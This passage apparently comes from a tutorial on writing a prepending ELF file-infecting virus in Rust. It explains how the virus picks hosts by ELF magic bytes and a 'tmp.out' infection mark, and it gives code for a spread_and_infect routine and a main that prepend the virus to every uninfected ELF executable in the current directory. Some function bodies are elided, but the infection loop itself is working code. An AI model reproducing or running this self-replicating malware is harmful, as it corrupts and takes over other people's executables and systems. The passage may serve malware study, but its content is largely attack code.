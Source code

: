 Now, we must decide how to find suitible hosts. The goal is to infect files that have an ELF signature, but do not have an infection mark. The infection mark is a series of bytes present in the virus binary (but not in the source code: `\\xff` != `0xff`) and so the virus can avoid (re)infecting itself.

```rust
const ELF_MAGIC: &[u8; 4] = &[0x7f, 0x45, 0x4c, 0x46];
const INFECTION_MARK: &[u8; 8] = b"tmp.out\xff";

/// Checks whether `bytes` starts with an ELF signature
fn is_elf(bytes: &[u8]) -> bool {
    // ...
}

/// Checks whether `bytes` contains the infection mark
fn is_infected(bytes: &[u8]) -> bool {
    // ...
}

/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {    
    // ...

    for entry in entries {
        // ...

        // Skip if this is not an ELF file
        if !is_elf(&contents) { continue; }

        // Skip if this file is already infected
        if is_infected(&contents) { continue; }

        // Infect this file
        let mut new_file = vec![];
        new_file.extend_from_slice(&virus);
        new_file.extend_from_slice(&contents);
        let _ = fs::write(entry.path(), &new_file); // Ignore `Err`s
    }
}
```

The first time the virus is run, it's okay to prepend the entire virus binary onto the host, but from that point forward, `virus` will include not just the virus code, but its host's code as well. In Rust, it is tricky to determine exactly what portion of the code should be copied. This sample relies on a `VIRUS_SIZE` constant that needs to be adjusted everytime the binary is recompiled (more on this later); `main` is updated to restrict the code passed to `spread_and_infect` to only the actual virus code.

```rust
const VIRUS_SIZE: usize = 0; // Placeholder value

fn main() {
    let my_name = &env::args().collect::<Vec<String>>()[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &my_code[..VIRUS_SIZE]);
    }
}
```
